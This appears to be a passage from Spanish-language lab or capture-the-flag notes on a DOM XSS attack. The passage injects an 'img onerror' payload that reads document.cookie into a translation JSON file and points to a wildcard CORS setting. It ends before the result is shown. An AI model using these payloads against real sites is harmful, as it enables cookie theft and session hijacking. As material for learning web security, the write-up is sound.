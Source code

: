 	2. Le podemos meter un DOM XSS ahi.
4. ![](Pasted%20image%2020250518173836.png)
```json
{

        "en": {
        "name": "English"
    },
    "es": {
        "name": "espaÃ±ol",
        "translations": {
            "Return to list": "Volver a la lista",
            "View details": "</a><img src=1 onerror='alert(document.cookie)' />",
            "Description:": "DescripciÃ³n"
        }
    },
    "cn": {
        "name": "ÃÂÃÂÃ...... .... 
```
**La carga util la inyectamos en `view details`**
5. ![](Pasted%20image%2020250518174215.png)
6. EL CORS ES NECESARIO, sino obtendremos ese error. 
7. Payload: 
```ruby
//CLARO METEMOS EL CORS * PARA HABILITAR TODA LA CARGA EXTERNA. 
</a><img src=1 onerror='alert(document.cookie)' />
O este PAYLOAD TAMBIEN SIRVE: 
<img src=1 onerror='alert(document.cookie)' />
```
8. Comprobemos que se ha inyectado exitosamente: 